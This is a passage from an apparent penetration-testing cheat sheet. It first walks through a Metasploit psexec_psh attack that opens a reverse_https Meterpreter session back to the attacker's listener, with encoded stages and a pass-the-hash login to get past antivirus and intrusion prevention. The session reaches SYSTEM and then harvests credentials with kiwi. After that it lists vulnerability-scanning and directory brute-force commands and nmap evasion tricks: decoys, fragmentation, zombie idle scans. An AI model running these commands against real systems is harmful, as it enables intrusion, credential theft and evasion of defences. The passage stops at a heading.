 Nice now we got rid of the AV, however our payload and IP was still blocked since they use an IPS 
so we used a reverse_https listener and psexec_psh to bypass it:
mohamed@KeyStrOke:~$ msfconsole
use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/reverse_https
set StageEncoder x86/shikata_ga_nai
set EnableStageEncoding true
set SMBUSER USERNAME
set SMBPASS cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb
set lhost IP
set lport 443
exploit -j
and BOOM   :D
Server username: NT AUTHORITY\SYSTEM
Enjoy your Session
Kiwi collect credentials
meterpreter > load kiwi
meterpreter > cred_all
Network
Nmap Full Web Vulnerable Scan
cd /usr/share/nmap/scripts/
wget http://www.computec.ch/projekte/vulscan/download/nmap_nse_vulscan-2.0.tar.gz && tar xzf nmap_nse_vulscan-2.0.tar.gz
nmap -sS -sV --script=vulscan/vulscan.nse target
nmap -sS -sV --script=vulscan/vulscan.nse –script-args vulscandb=scipvuldb.csv target
nmap -sS -sV --script=vulscan/vulscan.nse –script-args vulscandb=scipvuldb.csv -p80 target
nmap -PN -sS -sV --script=vulscan –script-args vulscancorrelation=1 -p80 target
nmap -sV --script=vuln target
nmap -PN -sS -sV --script=all –script-args vulscancorrelation=1 target
Dirb Dir Bruteforce
dirb http://IP:PORT /usr/share/dirb/wordlists/common.txt
Nikto web server scanner
nikto -C all -h http://IP
WordPress Scanner
git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url http://IP/ –enumerate p
HTTP Fingerprinting
wget http://www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
cd httprint_301/linux/
./httprint -h http://IP -s signatures.txt
WordPress Scanner
git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url http://IP/ –enumerate p
SKIP Fish Scanner
skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://IP
Nmap Ports Scan
1)decoy- masqurade nmap -D RND:10 [target] (Generates a random number of decoys)
1)decoy- masqurade nmap -D RND:10 [target] (Generates a random number of decoys)
2)fargement
3)data packed – like orginal one not scan packet
4)use auxiliary/scanner/ip/ipidseq for find zombie ip in network to use them to scan — nmap -sI ip target
5)nmap –source-port 53 target
nmap -sS -sV -D IP1,IP2,IP3,IP4,IP5 -f –mtu=24 –data-length=1337 -T2 target ( Randomize scan form diff IP)
nmap -Pn -T2 -sV –randomize-hosts IP1,IP2
nmap –script smb-check-vulns.nse -p445 target (using NSE scripts)
nmap -sU -P0 -T Aggressive -p123 target (Aggresive Scan T1-T5)
nmap -sA -PN -sN target
nmap -sS -sV -T5 -F -A -O target (version detection)
nmap -sU -v target (Udp)
nmap -sU -P0 (Udp)
nmap -sC 192.168.31.10-12 (all scan default)
NC Scanning